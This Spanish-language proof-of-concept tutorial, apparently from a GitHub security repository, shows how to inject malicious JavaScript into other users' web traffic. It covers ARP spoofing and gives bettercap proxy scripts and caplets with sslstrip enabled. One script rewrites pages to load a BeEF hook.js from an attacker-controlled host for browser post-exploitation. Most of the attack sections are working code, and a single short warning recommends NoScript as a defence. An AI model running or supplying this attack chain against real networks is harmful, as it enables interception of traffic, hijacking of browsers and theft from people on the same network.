 # POC: Inyectar Javascript malicioso

Javascript es un lenguaje de programación utilizado en programación web que se ejecuta de lado del cliente, es decir, cualquier acción realizada en Javascript tendrá un reflejo en los equipos de aquellas personas que visiten la página web.

Aprovechando esta caracterísitca de Javascript podemos inyectar un fichero Javascript (que contiene código malicioso) dentro de las peticiones HTTP para poder realizar diferentes acciones ([como minar criptomonedas](https://www.europapress.es/portaltic/internet/noticia-the-pirate-bay-utiliza-cpu-usuarios-deshacerse-anuncios-mineria-criptomoneda-20170918140205.html))

## Inyección de Javascript

Para poder inyectar Javascript dentro de las peticiones, tendremos que realizar un ataque de arp spoofing, de forma que podemos realizar tratamiento de dichos paquetes.

Posteriormente lo que tenemos que realizar es montar un proxy http/https, de forma que todas las peticiones de nuestro objetivo pasen por este y queden infectadas.

Para poder modificar las peticiones usaremos el proxy http de bettercap. En primer lugar usaremos un código Javascript de ejemplo.

```
function onLoad(){
   log("Script loaded..");
}

function onResponse(req,res){

 if (res.ContentType.indexOf('text/html') == 0){

 	var body = res.ReadBody();

	 res.Body = body.replace(
	 '</head>',
	 '<script type="text/javascript">alert(\"@cyberh99 wa    s here\")</script></head>'
	 );
	}

}
```
[injectionJS.js](https://github.com/cyberh99/Seguridad-en-redes-dom-sticas/blob/master/scripts/capplets/injectionJS.js)

Este código Javascript realiza una acción muy sencilla, se encarga de reemplazar la etiqueta _head_ del código html de cualquier página agregando una sencilla ventana que dice "@cyberh99 was here". Con esto podemos comprobar como funcionala inyección de Javascript.

Dentro del código encontramos dos funciones, las cuales _tienen que estar para el funcionamiento del script_, estas tienen la siguiente relevancia:

* onLoad() --> Se ejecuta cuando el script se cargca
* onResponse(req,res) --> Se ejecuta una vez se envía el paquete al servidor real y se recibe respuesta

Una vez que tenemos el código Javascript malicioso simplemente crearemos nuestro caplet para ejecutar Bettercap:

```
set http.proxy.script injectionJS.js
set https.proxy.script injectionJS.js

set http.proxy.sslstrip true
set https.proxy.sslstrip true

http.proxy on
https.proxy on

```
[injectionTest.cap](https://github.com/cyberh99/Seguridad-en-redes-dom-sticas/blob/master/scripts/capplets/injectionTest.cap)

!!!warning
    Existen extensiones para los diferentes navegadores como Firefox y Google Chrome que permite deshabilitar Javascript de las diferentes páginas web, habilitando exclusivamente aquellos que sean de confianza.

    Entre las diferentes opciones, la más usada y recomendad es [noScript](https://noscript.net/)
## Beef: Browser Explotation Framework

El código Javascript que hemos inyectado es muy simple, para una mera demostración, sin embargo, podemos hacer cosas mucho más complejas, un ejemplo de ello es Beef.

Beef (Browser Explotation Framework) es una herramienta que nos ofrece la opción de infectar diferentes navegadores con código javascript, de forma que podamos realizar acciones sobre la máquina infectada. Este framework puede estar conectado con Metasploit o ser utilizado para ingenieria social.

Para poder inyectar el códgio javascript de beef utilizaremos el siguiente código:

```javascript
function onLoad() {
    log( "BeefInject loaded." );
    log("targets: " + env['arp.spoof.targets']);
}

function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace(
                '</head>',
                '<script type="text/javascript" src="http://10.0.2.15:3000/hook.js"></script></head>'
            );
        }
    }
}
```
[beefJavascript.js](https://github.com/cyberh99/Seguridad-en-redes-dom-sticas/blob/master/scripts/capplets/beefJavascript.js)

```
set http.proxy.script beefJavascript.js
set https.proxy.script beefJavascript.js

set http.proxy.sslstrip true
set https.proxy.sslstrip true

http.proxy on
https.proxy on
```
[beefInjection.cap](https://github.com/cyberh99/Seguridad-en-redes-dom-sticas/blob/master/scripts/capplets/beefInjection.cap)

Posteriormente disponemos de todo el potencial que nos ofrece beef para realizar acciones de post explotación.
